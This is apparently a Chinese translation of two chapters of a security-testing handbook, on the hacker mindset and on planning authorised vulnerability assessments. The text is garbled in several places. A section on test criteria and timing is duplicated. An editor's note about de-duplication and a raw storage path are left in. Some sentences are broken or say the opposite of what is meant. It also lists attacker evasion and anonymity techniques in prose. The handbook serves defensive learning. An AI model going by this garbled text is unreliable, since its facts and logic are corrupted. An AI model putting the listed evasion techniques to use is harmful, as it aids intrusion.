新的安全漏洞不断出现。信息系统不断变化并变得复杂。新的安全漏洞和利用被发现。漏洞扫描器变得越来越好。安全测试提供了系统安全状况的快照。在任何时候，一切都可能发生变化，特别是在升级软件、添加计算机系统或应用补丁之后。这种情况强调了经常更新工具的必要性——如果可能，在每次使用之前。计划定期且一致地测试（例如每月一次，每季度一次）。这种状况强调了经常更新工具的必要性——向前发展。


24 第1部分 构建安全测试的基础

## 本章内容

- 了解敌人
- 为黑客和恶意用户画像
- 了解黑客为何这样做

## 破解心态

在开始评估系统之前，了解一些关于这些事情是好的。在本章中，我描述了你面临的挑战以及他们的动机和方法。

## 你所反对的

由于媒体的煽情，公众对黑客的看法很大是真实的。很容易偏见你不理解的东西。

黑客可以根据他们的能力和内在动机进行分类。有些人是有技能的，他们的动机是无害的；只是寻求知识。然而，其他黑客可能有恶意，并寻求某种形式的个人、政治或经济利益。遗憾的是，黑客的负面方面往往盖过了积极方面。

当他们长大时，黑客的对手是视频游戏中的怪物和反派。现在的黑客只看到：他们正在攻击的防火墙、无线网络和 Web 应用程序背后的人类。他们忽视了他们的行为通常会对这些人类产生负面影响，例如危及他们的工作安全和人身安全。政府支持的黑客？嗯，那是另一回事，这些黑客在为这些事情做出深思熟虑的决定。

另一方面，你的网络中有员工、合同工、实习生或顾问出于恶意目的破坏敏感信息。这些人并并不是人们通常认为的那样。相反，他们在服务器共享中翻找；深入他们不应该进入的数据库；有时会窃取、修改和删除他们权限内的敏感信息。这种行为可能很难检测，特别是考虑到管理层广泛认为用户可以并且会被信任做正确的事。过去的行为通常是未来行为的最好预测，但仅仅因为某人记录良好且拥有访问系统的权限，并不意味着他或她不会做坏事。犯罪行为必须从某个地方开始！


传统黑客

除了脚本小子（技能有限的黑客模仿者）之外，传统黑客是具有冒险精神和创新思维思考者，他们正在设计利用漏洞的新方法。被忽视的人员非常无知且缺乏良好的形势意识。他们好奇如果拔掉电缆、切换开关或更改程序中的几行代码会发生什么。老派黑客就像情景剧家庭家庭改进中的提姆“工具人”泰勒——提姆·艾伦的角色——认为他们可以通过“重新布线”来改进电子和机械设备。


## 像坏人一样思考

恶意攻击者的思维和工作方式就像他们每天在新闻中听到的小偷、绑持犯和其他组织犯罪分子一样。聪明的攻击者会策划避开雷达，并利用通往其目标的即使是最微小的弱点。以下是黑客和恶意用户思考和工作的示例。此列表并非旨在突出我在书中书中涵盖的特定漏洞或我建议你在外面执行的测试，但它展示了恶意心态的背景和方法：

- 通过每隔几分钟（或每隔几个数据包）更改 MAC 地址或 IP 地址来规避入侵防御系统，从而在不被拦截的情况下进一步进入网络。
- 利用物理安全漏洞，留意那些已被清洁人员清理过且无人居住的办公室（因此容易进入且被发现的概率很小）。这种弱点可能被你暴露，例如，在清晨办公室的百叶窗被打开且窗帘被拉上。
- 通过漏洞的 Web 页面、应用程序的登录机制或脆弱的密码重置过程提升权限，从而绕过 Web 访问控制。
- 通过更改其运行的默认 TCP 端口，使用原本会被防火墙拦截的未经授权的软件。
- 在本地 Wi-Fi 热点附近设置“邪恶孪生”，以拦截毫无防备的冲浪者进入恶意网络，在那里他们的信息可以被捕获并被轻易操纵。
- 使用过度信任的同事的用户 ID 和密码来获取他们原本极不可能获取的敏感信息，这些信息可能被用于获取非法利益。
- 拔掉监控计算机机房或敏感区域的网络安全摄像头的电源线或以太网连接，随后获得未受监控的系统访问权限。
- 通过邻居未受保护的无线网络对网站进行 SQL 注入或密码破解，以隐藏恶意用户的身份，而此列表仅展示了黑客可能使用的极少数技术。

恶意攻击者以无数种方式运作，IT 和安全专业人员需要以这种方式思考和工作，以发现可能在其他情况下不会被揭示的安全漏洞。

第 2 章 破解黑客心态 27

尽管侵入计算机系统通常是负面的，但黑客和研究人员在技术进步方面起着关键作用。在一个没有这些人的世界里，最新的入侵防御技术、数据泄露防护（DLP）或漏洞扫描和利用工具可能会不同，如果它们存在的话。这样的世界可能并不坏，但技术让安全专业人员持续工作并推动该领域向前发展。遗憾的是，技术安全解决方案无法防御恶意攻击和未经授权的使用，因为黑客和（有时）恶意用户通常比旨在防止其行为的技术领先几步。

无论你如何看待刻板印象中的黑客或恶意黑客，有一点是明确的：总会有人试图在不该触碰的地方通过戳试探、通过拒绝服务（DoS）攻击或通过创建并发布恶意软件来攻破你的计算机系统并破坏信息。你必须采取适当措施保护你的系统免受此类入侵。

## 谁在破解计算机系统

计算机黑客已经存在几十年了。自从互联网在 20 世纪 90 年代普及，大众开始听到更多关于黑客的消息。某些黑客非常有名，例如约翰·德雷（也被称为饼干队长）和凯文·米特尼克）。许多未知的黑客渴望声名大噪，他们才是你必须警惕的人。

在一个黑白分明的世界里，描述典型的黑客很容易。黑客的历史刻板印象是一个反社交的、长青春痘的青少年男孩。世界有很多种灰色地带，许多类型的人都在进行黑客。黑客是独特的人，因此很难勾勒画像。对黑客最好的宽泛描述是，并非所有黑客都是平等的。每个黑客都有独特的动机、方法和技能。

## 黑客技能水平

黑客技能水平分为三大类：

- 脚本小子（Script kiddies）：这些是计算机初学者，他们利用互联网上免费提供的利用工具、漏洞扫描器和文档，但对背后的真实原理一无所知。他们了解的仅足以让你头疼，但在行动上非常粗心，留下了各种数字指纹。尽管这些人是你从新闻媒体中听到的刻板印象黑客，但他们只需要极少的技能即可执行攻击。

- 犯罪黑客（Criminal hackers）：通常被称为破解者（crackers），这些黑客是精艺高超的犯罪专家，他们编写一些黑客工具，包括脚本小子和安全专业人员使用的脚本和其他程序。这些人还编写恶意软件，以从世界的另一端执行他们的利用。他们可以进入网络和计算机并掩盖踪迹。他们甚至可以让看起来像是某人破解了受害者的系统。有时，心怀不轨的人可能并没有做被认为是黑客的事；尽管如此，他们滥用了权限或以某种方式获得了未经授权的访问。

高级黑客通常是倾向于保持匿名的集体的成员。他们非常神秘，只有当他们认为那些下属（集体中排名较低的黑客）值得时才会与他们分享信息。通常，要让低级黑客被认为值得，他们必须拥有独特的信息，或者通过一次高知名度的黑客活动证明自己以加入帮派。这些黑客是你 IT 领域最糟糕的敌人之一。（好吧，也许他们并没有他们声称的那些未经训练且粗心的行动者那么糟糕。他们确实很厉害！）通过了解犯罪行为，你只是在主动采取，在问题演变成麻烦之前解决它们。

- 安全研究人员（Security researchers）：这些是高技术水平、为人知的安全专家，他们不仅监控和跟踪计算机、网络和应用程序漏洞，还编写工具和代码来利用它们。如果这些人不存在，安全专业人员将无法获得防御系统所需的工具。关注这些研究人员可以帮助你了解漏洞动态。你可以查看 (https://www.security.com) 和相关资源。

黑客可以是好的（白帽），也可以是坏的（黑帽）。灰帽黑客则两者兼有。还有蓝帽黑客，是软件开发者邀请他们寻找漏洞。

你最大的威胁之一是建筑内部拥有大楼出入证、网络账户的人，不要忽视内部威胁。

第 2 章 破解黑客心态 29

## 黑客动机

也许黑客的动机比其技能水平更重要。以下黑客群体有不同的动机：

- 黑客主义者（Hacktivists）：这些黑客通过他们的工作传播政治或社会信息。黑客主义者希望提高对某个问题的关注，但想保持匿名。在许多情况下，这些黑客试图攻败那些与他们观点相反的人。黑客主义的案例包括“释放凯文”凯文·米特尼克，他因其著名的事迹而入狱。其他黑客主义案例包括关于合法药物、反战抗议、富裕大公司以及你能想到的任何社会政治问题。

- 恐怖分子（Terrorists）：恐怖分子（无论是组织还是未组织的，受政府机构支持）攻击公司或政府公共基础设施，如电网和空中管制塔。他们破坏关键系统，窃取机密数据和/或泄露政府员工的个人信息。各国重视这些恐怖分子的威胁，许多国家要求关键行业实施安全控制，以保护系统免受此类攻击。

- 雇佣黑客（Hackers for hire）：这些黑客是网络犯罪的一部分。许多此类黑客雇自己或他们的僵尸网络来换钱——大量的钱！

犯罪黑客是少数，所以不要认为你正在对抗数百万这样的恶魔。就像世界的垃圾邮件一样，许多集体的成员倾向于保持匿名；邪恶行为是由少数犯罪分子实施的。许多其他黑客喜欢钻研并寻求计算机系统的运作方式。

## 他们为什么要这样做

黑客之所以破解是因为他们可以。此之。好吧，原因变得更深层了。破解对某些黑客来说是一种爱好；他们是为了查看自己可以和不能进入什么，仅测试他们自己的系统。这些人不是我在书中描写的人。相反，我关注的是那些痴迷于获得名声或击败计算机系统的黑客。

30 第一部分 构建安全测试的基础


许多黑客以以此胜过企业和政府的 IT 安全管理员为乐。他们渴望着登上头条新闻并声名臭著而生存。击败一个实体或拥有极少数人拥有的知识让他们倍感自豪，建立起自尊心。许多黑客从利用计算机系统带来的即时满足中汲取能量。他们痴迷于这种感觉。有些黑客无法抵制入侵他人系统时带来的肾上腺素飙升。工作越困难，对他们来说快感就越强。

考虑到他们的集体倾向，这似乎有些讽刺，但黑客往往推崇个人主义——或者信息的去中心化——因为许多人认为所有信息应该是免费的。他们认为自己的攻击与现实世界的攻击不同。黑客忽视或误解了受害者以及黑客带来的后果。他们没有考虑今天所做选择可能产生的长期影响。许多黑客说，他们无意通过恶行伤害他人或获利，这种信念帮助他们为自己的工作辩护。另一些人不追求实质性的回报；证明自己的观点对他们来说通常就是足够的奖励。提到许多这类人时，人们会想到*反社会人格*这个词。

恶意攻击者获得的知识和成功黑客带来的自尊心提升可能会变成一种瘾和生活方式。某些攻击者想让你的生活痛苦，仅仅是为了被看到或被听到。某些动机包括报仇、炫耀、好奇心、无聊、挑战、破坏、为了财利的盗窃、破坏破坏、勒索、敲诈、企业间谍活动，以及广义上反对“权威”。黑客经常引用这些动机来解释自己的行为，但他们往往在经济困难时期更倾向于引用这些动机。

网络内部的恶意用户可能试图获取信息来帮助解决个人财务问题、在竞争中胜、向雇主报仇、满足好奇心或缓解无聊。

许多企业主和经理——甚至一些网络和安全管理员——认为即使系统崩溃，他们也没有无能为力之黑客。这些想法是完全错误的。这种轻视的思维方式有助于支持坏人并维护他们的利益。黑客可以入侵一个看似无关紧要的系统来访问网络，并将其作为攻击其他系统的跳板，而许多人对此一无所知，因为他们没有适当的控制措施来防止和检测恶意使用。

黑客入侵往往仅仅是因为他们能做到。有些黑客针对高知名系统，但入侵任何人的系统都能帮助他们融入黑客圈。

# 第2章 *破解黑客思维* 31

黑客利用许多人的虚假安全感，针对几乎任何他们认为可以攻克的系统。电子信息可能同时存在于多个地方，因此如果黑客仅仅从他们入侵的系统中复制信息，就很难证明黑客拥有这些信息，而且无法找回这些信息。

同样，黑客知道，一个简单的被篡改的网页——无论多容易被攻击——对他来说都没有好处。只有在大规模数据泄露或导致巨额资金授权转账的电子邮件钓鱼攻击，才能引起企业高管的注意。但被黑掉的网站往往能说服其他不信者去处理信息威胁和漏洞。

最近的许多研究显示，大多数安全漏洞本质上是基础性的，这正是我安全评估中看到的。我将这些网络中的基础*触手可得的果实*称为此类，正等待被利用。由于几个原因，计算机破解持续变得更容易执行，但却更难防止：

- *网络和互联网连接的广泛使用。*
- 互联网（通常是内部网络）上计算机系统的匿名性（因为很少进行适当且有效的记录、监控和警报）。
- 更多的开放无线网络帮助犯罪分子掩盖踪迹。
- 当今开发的应用程序和数据库中网络和代码库的复杂性。
- 天真却精通的孩子，渴望为了免费物品而放弃隐私（他们从未体验过的隐私）。
- 攻击者被捕后受到调查或起诉的可能性。

恶意黑客只需要找到一个安全漏洞，而 IT 和安全专业人员以及企业主必须发现并解决所有漏洞！

尽管许多攻击未被发现或报告，但被发现的罪犯可能不会受到处置或起诉。当他们被捕获时，黑客往往将他们的服务合理化为利他主义和社会的益处：他们只是在别人之前指出漏洞。无论如何，如果黑客被捕并起诉，黑客赖以生存的“名声和荣誉”奖励系统就会受到威胁。


## 以自由之名黑客？

许多黑客表现出与其声称目的相矛盾的行为。他们为公民自由而战并希望不被打扰，但同时，他们热爱窥探他人事务并以任何可能的方式控制他们。许多黑客自称为民自由主义者，并声称支持个人隐私和自由原则，但他们通过侵犯他人的隐私和财产违背了自己的言论。他们偷取财产并侵犯他人权利，却会竭力从任何威胁他们的人那里夺回自己的东西。这种情况是“互不相干”的变质。

涉及版权材料和美国录音机协会（RIAA）的案件是一个经典案例。黑客付尽全力为了证明某个观点，篡改支持版权组织的网站，并自己分享音乐和软件。真让人难以理解。

恶意用户也是如此。通常，他们的犯罪活动未被发现，但如果他们被捕获……（注：此处后续内容大量重复，已按指令要求去重）


## 黑客杂志

如果你想详细了解某些黑客是如何运作的，或者想跟上最新的黑客方法，有几本杂志值得关注：

- *2600 — 黑客季刊* (www.2600.com)
- *INSECURE magazine* (www.helpnetsecurity.com/insecurem-archive)
- Hackin9 (http://hakin9.org)
- PHRACK (www.phrack.org/archives)

恶意攻击者通常会从错误中学习。每一个错误都让他们离攻入他人系统又近一步。他们在执行未来的攻击时会利用这些知识。作为负责测试你环境安全的安全专业人员，你也需要做到这一点。

时间是攻击者的朋友，而且它总是站在他或她这一边。通过攻击计算机而不是面对面攻击，黑客对攻击的时机有更多的控制权。攻击可以缓慢进行，使其难以被察觉。攻击经常在典型工作时间之后进行，通常在深夜（对于恶意用户来说，是在家里进行）。在非工作时间，防御可能会较薄弱，物理安全较少，入侵监控减少，而典型的网络管理员或安保人员正在睡觉。

## 保持匿名性

聪明的攻击者想要尽可能低调。掩盖踪迹是重中之重，很多时候，他们的成功取决于不被发现。以避免引起怀疑，以便他们将来可以回来并访问系统。

黑客通常通过使用以下资源之一保持匿名：

- 借用或盗取的朋友或前雇主的远程桌面和虚拟专用网络（VPN）账户。
- 图书馆、学校或酒店商务中心的公共计算机。
- 开放无线网络。
- 互联网代理服务器或匿名服务。
- 匿名或一次性电子邮件帐户。
- 开放的邮件中继。
- 其他组织的受感染计算机（也称为僵尸或机器人）。
- 受害者自己网络上的工作站或服务器。

第2章 破解黑客思维 35

## 本章内容
- 设置安全测试目标
- 选择要测试的系统
- 开发你的测试标准
- 研究攻击工具

# 第3章
制定你的安全测试计划

作为一名信息安全专业人员，你必须在开始之前规划你的安全评估工作。制定详细计划并不意味着你的测试必须非常复杂——只要你对做什么做到清晰简洁即可。考虑到漏洞测试和渗透测试的严肃性，你应该让这个过程尽可能结构化。

即使你只测试单个 Web 应用程序或一组计算机，也要确保采取这些关键步骤：建立目标、定义并记录你将测试的范围、确定你的测试标准，以及收集并熟悉适用于该任务的适当工具。本章涵盖了这些步骤，帮助你创建一个良好的环境，从而为成功奠定基础。

## 建立你的目标

你无法击中看不见的目标。你的测试计划需要目标。漏洞和渗透测试的主要目标是从坏人的角度发现你系统的缺陷，以便让你的环境更加安全。然后你可以更进一步：

- **定义更具体的目标。** 将这些目标与你的业务目标对齐。明确你和管理层试图从这个过程中获得什么，以及你将使用哪些性能标准来确保充分利用了测试的价值。
- **创建一个带有开始日期、结束日期以及测试进行时间的特定日程。** 这些日期和时间是你整体计划的关键组成部分。

在开始测试之前，你绝对、绝对需要所有内容都有书面记录并获得批准。记录一切，并让管理层参与这一过程中。你在测试工作中最好的盟友是一个支持你工作的经理。


在定义安全测试计划目标时，以下问题可以帮助启动工作：

- **你的测试是否支持业务及其 IT 和安全部门的任务？**
- **执行这项测试可以实现哪些业务目标？** 这些目标可能包括以下内容：
    - 顺利通过《鉴证业务务标准声明》(SSAE) 18 审计。
    - 符合联邦法规，例如《健康保险可携带性与责任法案》(HIPAA) 和《支付卡行业数据安全标准》(PCI DSS)。
    - 符合客户或业务伙伴的合同要求。
    - 维护公司形象。
    - 为国际认可的安全标准 ISO/IEC 27001:2013 做准备。
- **这项测试将如何提高安全、IT 和整个业务？**
- **你正在保护什么信息（例如，个人健康信息、知识产权、机密客户信息或员工隐私信息）？**
- **你和你的组织愿意在安全评估上投入多少金钱、时间和精力？**

38 第1部分 构建安全测试的基础

- **将会有哪些具体的交付物？** 交付物可以包括从高层执行报告到详细的技术报告，以及对你测试过内容的编写报告和你的测试结果。你可以交付在测试过程中收集的特定信息，例如密码和其他机密信息。
- **你想要哪些具体的结果？** 预期结果包括招聘或外包、增加预算或增强安全性。

在了解目标后，记录你为实现这些目标将采取的步骤。你可能需要这些问题的答案：

- 你将何时开始？
- 你的测试方法是盲测（即隐蔽测试，你对此一无所知）还是基于知识的（即公开测试，你会获得如 IP 地址、主机名、用户名和密码等特定信息）？
- 你的测试是技术性的、涉及物理评估，还是作为更大测试团队（有时称为红队）的一部分？
- 你是否会通知受影响方你正在做什么以及何时做？
- 你如何知道客户是否关心组织正在采取措施保护他们的信息？
- 哪些衡量标准可以确保这些努力产生了成效？

建立目标需要时间，但你不会后悔的。这些目标是你的路线图。如果你有任何疑虑，参考这些目标以确保你处于正轨上。

第3章 制定你的安全测试计划 39


提示


## 你需要保险吗？

如果你是独立顾问或拥有一支安全专业人员团队的公司，请考虑从专门从事保险的代理处购买责任险（也称为遗漏险）。这种保险可能很贵，但如果发生意外需要保护时，它是值得的。许多客户在雇佣你工作之前会要求提供保险。

## 确定要测试的系统

在建立整体目标后，决定要测试哪些系统。你可能不想同时评估所有的系统安全性。评估所有的系统安全性可能是一项巨大的工程。我并不是建议你不测试拥有的每一个计算机和应用程序。我只是建议在可能的情况下，你应该将项目分解成较小的部分，以便于管理，特别是当你刚开始时。帕累托法则（专注于高价值任务）应该具有优先性。你可以根据高层风险分析来决定要测试哪些系统，回答以下问题：

- 哪些系统是最关键的？
- 哪些系统如果未经授权被访问，会造成最大的麻烦或损失？
- 哪些系统看起来最容易受到攻击？
- 哪些系统缺乏文档、很少维护，或者是你了解最少的？

以下列表包含了你可能进行漏洞和渗透测试的设备、系统和应用程序：

- 路由器和交换机
- 防火墙
- 无线接入点
- Web 应用程序（内部、外部（本地托管或云端））

40 第1部分 构建安全测试的基础


- >> 数据库、电子邮件和文件服务器
- >> 存储机密信息的移动设备（如智能手机和平板）
- >> 物理监控摄像头和建筑访问控制系统
- >> 监控控制与数据采集 (SCADA) 和工业控制系统
- >> 工作站和服务器

你测试的系统取决于几个因素。如果你有一个小型网络，可以测试所有内容。对于较大的机构，考虑仅测试面向公众的主机，例如电子邮件和 Web 服务器及其关联应用程序。安全测试过程是灵活的。请根据最符合业务逻辑的因素，或根据合规法规、业务伙伴及客户的要求来做出决策。

从最脆弱的系统开始，并考虑以下因素：

- >> 计算机或应用程序是在网络上还是在云端。
- >> 系统运行什么操作系统（OS）和应用程序。
- >> 系统中存储的关键信息量或类型。

之前的安全风险评估、漏洞测试或业务影响分析可能已经对上述问题提供了答案。如果是这样，文档可以帮助你识别用于进一步测试的系统。领结模型（Bow Tie）和失效模式影响分析（FMEA）是额外的方法。

漏洞测试和渗透测试比漏洞扫描和高层风险评估更深入。通过适当的测试，你可能从收集所有系统（包括整个组织）的信息开始，然后评估最脆弱的系统。我将在第 4 章中讨论漏洞和渗透测试方法。

另一个有助于决定从哪里开始的因素是你对脆弱性最大系统的评估。例如，至少在初始阶段，关注存储关键客户信息的数据库或文件服务器，可能比关注托管营销信息的防火墙或 Web 服务器更有意义。


## 攻击树分析 (ATTACK-TREE ANALYSIS)

攻击树分析是创建一个类似于流程图类型的映射，用于描述恶意攻击者将如何攻击系统。攻击树被用于更高级的信息风险分析；它们也被精通安全的开发团队用于规划新的软件项目。如果你想通过彻底周全地规划攻击、有条理地工作并变得更加专业来提升你的安全测试水平，攻击树分析是你需要的工具。

唯一的缺点是，绘制攻击树可能需要大量时间，并且需要大量的专业知识。不过，既然计算机可以为你完成这一切，又何必纠结于过程呢？由 Amenaza Technologies Ltd. (www.amenaza.com) 开发的名为 SecurTree 的商业工具专门用于攻击树分析。你也可以使用 Microsoft Visio (https://products.office.com/en-us/visio/visio-online) 或 SmartDraw (www.smartdraw.com)。下图显示了 SecurTree 攻击分析示例。



## 创建测试标准

在安全测试期间，一次沟通不畅或失误就会导致系统崩溃。没有人希望这种事情发生。为了防止意外，请开发并记录测试标准。这些标准应该包括：

- 执行测试的时间以及整体时间表。
- 执行了哪些测试。
- 预先获取了多少关于系统的知识。
- 测试是如何执行的，以及期望来自哪个 IP 地址（如果是通过互联网从外部源执行的话）。
- 发现重大漏洞时该怎么办。

此列表是通用的最佳实践；你可以根据自己的情况应用更多标准。接下来的章节将详细描述这些最佳实践。

## 测试时机的选择

人们说“一切取决于时机”，尤其是在进行安全测试时。确保你执行的测试能够尽可能减少对业务流程、信息系统和人员的干扰。你想要避免有害的情况，例如由于测试时间沟通不畅，导致在白白天对高流量电子商务网站造成拒绝服务（DoS），或者在半夜进行密码破解测试。12 小时的时差（主要生产期间的下午 2 点对比业务低谷期间的凌晨 2 点）竟能让你的系统测试失败，这真是令人惊讶！身处不同时区的人可能会产生问题。此外，让团队成员达成共识可以确保大家步调一致并修正预期。

> 如果可能且可行，请通知你的互联网服务提供商、云服务提供商和托管机房提供商。许多公司在批准你的测试之前需要此类提前通知。这些公司部署了防火墙或入侵防御系统（IPS）来检测恶意行为。如果你的提供商知道你正在进行测试，他们拦截你流量的可能性较低，你也将获得更好的结果。


你的时间表应该包含具体的短期日期、每个测试的日期、开始和结束日期以及一些里程碑。你可以将时间表输入简单的表格或以项目为中心的甘特图，或者放在更大的项目计划中。如下时间表可以保持简单，并在测试期间提供参考：

| 执行的测试 | 开始时间 | 预计结束时间 |
|---|---|---|
| Web 应用程序漏洞扫描 | 6 月 1 日，22:00 EST | 6 月 2 日，07:00 |
| 网络主机漏洞扫描 | 6 月 2 日，10:00 EST | 6 月 3 日，02:00 |
| 网络主机漏洞扫描 | 6 月 3 日，08:00 EST | 6 月 3 日，17:00 |
| 网络主机漏洞扫描 | 6 月 3 日，17:00 | 6 月 6 日，02:00 |

## 执行特定测试

在安全测试期间，一次沟通不畅或失误就会导致系统崩溃。没有人希望这种事情发生。为了防止意外，请开发并记录测试标准。这些标准应该包括：

- 执行测试的时间以及整体时间表。
- 执行了哪些测试。
- 预先获取了多少关于系统的知识。
- 测试是如何执行的，以及期望来自哪个 IP 地址（如果是通过互联网从外部源执行的话）。
- 发现重大漏洞时该怎么办。

此列表是通用的最佳实践；你可以根据自己的情况应用更多标准。接下来的章节将详细描述这些最佳实践。

## 测试时机的选择

人们说“一切取决于时机”，尤其是在进行安全测试时。确保你执行的测试能够尽可能减少对业务流程、信息系统和人员的干扰。你想要避免有害的情况，例如由于测试时间沟通不畅，导致在白白天对高流量电子商务网站造成拒绝服务（DoS），或者在半夜进行密码破解测试。12 小时的时差（主要生产期间的下午 2 点对比业务低谷期间的凌晨 2 点）竟能让你的系统测试失败，这真是令人惊讶。身处不同时区的人可能会产生问题。此外，让团队成员达成共识可以确保大家步调一致并修正预期。

> 如果可能且可行，请通知你的互联网服务提供商、云服务提供商和托管机房提供商。许多公司在批准你的测试之前需要此类提前通知。这些公司部署了防火墙或入侵防御系统（IPS）来检测恶意行为。如果你的提供商知道你正在进行测试，他们拦截你流量的可能性较低，你也将获得更好的结果。


你的时间表应该包含具体的短期日期、每个测试的日期、开始和结束日期以及一些里程碑。你可以将时间表输入简单的表格或以项目为中心的甘特图，或者放在更大的项目计划中。如下时间表可以保持简单，并在测试期间提供参考：

| 执行的测试 | 开始时间 | 预计结束时间 |
|---|---|---|
| Web 应用程序漏洞扫描 | 6 月 1 日，22:00 EST | 6 月 2 日，07:00 |
| 网络主机漏洞扫描 | 6 月 2 日，10:00 EST | 6 月 3 日，02:00 |
| 网络主机漏洞扫描 | 6 月 3 日，08:00 EST | 6 月 3 日，17:00 |
| 网络主机漏洞扫描 | 6 月 3 日，17:00 | 6 月 6 日，02:00 |

## 执行特定测试

你可能知道你执行的测试，但如果你使用自动化工具，可能无法理解每一个测试。这种情况尤其是在软件每次运行时接收实时更新和补丁时。频繁更新强调了阅读工具随附文档和 readme 文件的重要性。

你可能需要执行特定的测试，例如破解密码或获取访问。这尤其在你测试 Web 应用程序时。然而，你可能需要记录你正在做什么。

在你测试的系统上启用日志以及你使用的工具可以提供何时以及何时测试的证据。这种日志可能过过了，但你可以使用 TechSmith 的 Camtasia (www.techsmith.com/camtasia.html) 来记录屏幕操作。

## 内部案例研究

如果许多内部人员知道你的测试，他们可能会改进习惯，从而抵消你付出的努力。确保在发生问题时有一个应急预案。尽管如此，几乎总是通知系统所有者是一个好主意，他们。

## 盲测与知识评估

对你测试的系统拥有某些知识通常是最佳方法，但并非强制。对系统的基本了解可以保护你和他人。如果你在测试内部系统，获取这些知识并不困难。如果你在测试客户的系统，你可能需要深入研究这些系统的工作原理，以便熟悉它们。这样做一直是我的做法，我只有极少数客户要求盲测，因为大多数人都害怕它们。我并不是说盲测没有价值，但你执行的评估类型取决于你的需求。

最好的方法是计划无限的攻击，其中任何测试都是允许的，包括 DoS 测试。考虑是否应该执行测试，以便不被网络管理员以及任何托管安全服务提供商或相关供应商检测。虽然不是强制的，但应该考虑这种做法，特别是对于社会工程和物理安全测试。我将在 6 和 7 章中概述用于这些目的的特定测试。


## 选择你的测试位置

你执行的测试决定了你运行测试的位置。你的目标是从恶意黑客或内部人员可以访问的位置对你的系统进行测试。你无法预测是否会受到网络内部或外部人员的攻击，因此要尽可能地覆盖你的防御范围。将外部（公共互联网）测试与内部（私有网络）测试相结合。

你可以在办公室执行某些测试，例如密码破解和基础设施评估。对于需要网络连接的外部测试，你可能需要离开办公室（这是一个居家办公的好好借口），使用外部代理服务器，或者简单地使用 Wi-Fi。某些安全厂商的扫描器可以在云端运行。更好的情况下，如果你能为你的电脑分配一个可用的公网 IP 地址，连接到防火墙之外的网络，以从黑客的视角审视你的系统。

内部测试非常简单，因为你只需要对建筑和网络拥有物理访问权限。你可能可以使用已经为访客和客人提供的 DSL 线路或电缆调制调器。

## 对发现的漏洞做出响应

在发现关键安全漏洞时，预先决定是停止还是继续。你不需要一直测试下去。只需沿着你所在的路径继续，直到你达到你的目标或实现你的计划。如果有疑问，心中设定一个具体的目标，并在达成目标时停止。

> 如果你没有目标，你如何知道何时到达安全测试终点呢？

如果你发现了一个重大漏洞，我建议尽快联系相关人员，以便他们能够立即开始修复问题。相关人员可能是软件开发人员、产品或项目经理，甚至是首席信息官。如果你等几个小时、几天或几周，某些可能会利用该漏洞并造成本可以避免的损害，可能引发更严重的问题。

# 做出愚蠢的假设

你听过过当你做假设时，人们是如何看你的。尽管如此，你在测试系统时仍然会做出假设。以下是这些假设的一些例子：

- 在测试时，所有的计算机、网络、应用程序和人员都是可用的。（它们并不会。）
- 你拥有所有适当的测试工具。（当你开始行动时，能拥有你实际所需的一半就很走运了。）
- 你使用的测试工具能最大限度地降低你所测试系统崩溃的概率。（不，特别是如果你不知道如何正确使用。）
- 你理解自己可能会遗漏某些东西的可能性。（你会遗漏的。）
- 你知道测试的风险。（当你的计划不周时，风险可能特别高。）

记录所有假设。你不会后悔这么做的。

## 选择安全评估工具

你需要哪些安全评估工具取决于你将运行的测试。你可以用一双运动鞋、一部电话和网络上的基础工作站执行某些安全测试，但当你拥有良好的、专用工具时，全面的测试会变得更加容易。

我在书中讨论的工具不是恶意软件。这些工具及其网站可能会被某些杀病毒软件和网络过滤软件标记，但它们不是恶意软件。我只涵盖合法的工具，其中许多我已经使用了多年。如果你在下载、安装或运行书中的工具时遇到困难，请考虑配置你的系统以允许它们通过或信任它们的执行。请记住，我无法做出任何保证。你可以通过将原始 MD5 或 SHA 校验和与使用 CheckSum Tool (http://sourceforge.net/projects/checksumtool/) 等工具获得的校验和进行对比来使用校验和。分子始终向实际工具中注入恶意代码；无法保证安全性。反正你知道这一点，对吧？


如果你不确定使用什么，不要担心。在整本书中，我介绍了各种工具——免费的和商业的——你可以使用它们来完成任务。第 1 章提供了推荐工具列表。附录包含了一个全面的工具列表。


了解每个工具可以做什么和不能做什么，以及如何使用每个工具非常重要。我建议阅读手册和其他帮助文件。遗憾的是，某些工具的文档有限，这可能会令人沮丧。如果你在使用工具时遇到困难，可以搜索论坛并发布信息。

第 3 章 制定你的安全测试计划 47

安全漏洞扫描和利用工具可能对你的网络健康产生危害。使用它们时要小心。在使用任何选项之前，务必确保你理解每个选项的作用。如果你不确定如何使用，请在测试系统上尝试你的工具。即使你熟悉这些工具，这种预防措施也可以防止生产系统出现 DoS 攻击状态和数据丢失。

如果你和我一样，你可能鄙视一些免费软件和开源安全工具。其中许多工具浪费了我生命中几个小时甚至几天的时间，这些时间永远无法回来。如果这些工具带给你的头问题多于它们的价值，或者没有完成你需要的功能，请考虑购买商业替代品，这些工具通常更容易使用，并且通常能生成更好的高层管理报告。某些商业工具很昂贵，但它们的易用性和功能可能使初始和持续成本变得合理。在安全工具的大多数情况下，一分有所值。

48 第 1 部分 为安全测试奠定基础

## 本章内容

你的主要任务是发现漏洞，并模拟具有恶意意图的人所执行的收集和系统操作——也许是对单台计算机的部分攻击，可能是针对整个网络的全面攻击。通常情况下，你会寻找恶意用户和外部攻击者可能利用的弱点。评估外部和内部系统（包括涉及计算机、网络、人员和物理基础设施的过程和程序）。寻找漏洞。检查你的所有系统如何相互连接，以及私有系统和信息如何（或如何没有）受到不受元素元素。

## 为测试做好准备

